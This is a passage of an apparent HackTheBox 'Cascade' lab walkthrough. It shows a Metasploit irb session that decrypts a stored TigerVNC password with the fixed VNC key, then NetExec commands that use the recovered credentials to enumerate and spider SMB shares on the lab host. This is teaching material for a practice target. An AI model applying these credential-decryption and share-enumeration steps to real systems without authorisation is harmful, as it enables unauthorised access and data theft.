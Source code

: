 <pre class="language-bash"><code class="lang-bash"><strong># decrypting the TigerVNC password
</strong><strong>msfconsole -q
</strong>msf6 > irb
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey 
</code></pre>

<figure><img src="../../.gitbook/assets/casc_vnc_decrypt.png" alt=""><figcaption><p>Figure 13: Decrypting the TigerVNC password.</p></figcaption></figure>

This user has `READ` access to the `Audit` share, and by spidering this share we see that it includes some interesting files, including an `Audit.db` file (Figure 14).

```bash
# check share access
nxc smb 10.10.10.182 -u s.smith -p s.smith_pass --shares
# spider the Audit share
nxc smb 10.10.10.182 -u s.smith -p s.smith_pass --spider Audit\$ --regex . --depth 1
```

<figure><img src="../../.gitbook/assets/casc_audit_share.png" alt=""><figcaption><p>Figure 14: Enumerating s.smith's share access and spidering the Audit share.</p></figcaption></figure>


[^1]: Living Off The Land